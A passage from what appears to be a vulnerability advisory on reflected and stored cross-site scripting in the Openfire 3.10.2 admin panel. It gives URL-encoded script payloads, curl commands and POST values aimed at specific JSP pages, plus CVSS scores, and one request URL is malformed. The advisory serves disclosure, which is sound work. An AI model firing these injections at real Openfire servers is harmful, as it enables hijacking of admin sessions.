 or

```

domain=%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&serverBlocked=Block+Server
```

You can reproduce the exploitation with the following curl commands:

```
curl --data "domain=%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&remotePort=5269&serverAllowed=Add+Server" https://OpenFireServerIP:9090/server2server-settings.jsp --cookie="JSESSIONID=XXX" 

curl --data "domain=test&remotePort=5269%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&serverAllowed=Add+Server" https://OpenFireServerIP:9090/server2server-settings.jsp --cookie="JSESSIONID=XXX" 

curl --data "domain=%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&serverBlocked=Block+Server" https://OpenFireServerIP:9090/server2server-settings.jsp --cookie="JSESSIONID=XXX" 
```

#### *criteria* variable from *plugins/search/advance-user-search.jsp*

The following GET request exploits the XSS vulnerability:

```
http://OpenFireServerIP:9090/[[http://OpenFireServerIP:9090/plugins/search/advance-user-search.jsp?search=true&moreOptions=false&criteria=admin%22/%3E%3Cscript%3Ealert%28%27XSS%27%29%3C/script%3E&search=Search
```


## Several stored XSS Vulnerabilities identified in Openfire 3.10.2

**Access Vector**: remote

**Security Risk**: low

**Vulnerability**: CWE-79

**CVSS Base Score**: 5.5

[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O

### Vulnerability Description

Several XSS vulnerabilities have been found on several pages of the administration panel. Stored XSS could lead to session hijacking on admin user.

### Proof of Concept

#### *mucdesc* variable from *muc-service-edit-form.jsp*

The following POST values can be sent to trigger the vulnerability:

```
save=true&mucname=test&mucdesc=test%22%2F%3E%3Cscript%3Ealert%28%27XSS-2%27%29%3C%2Fscript%3E
```


[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O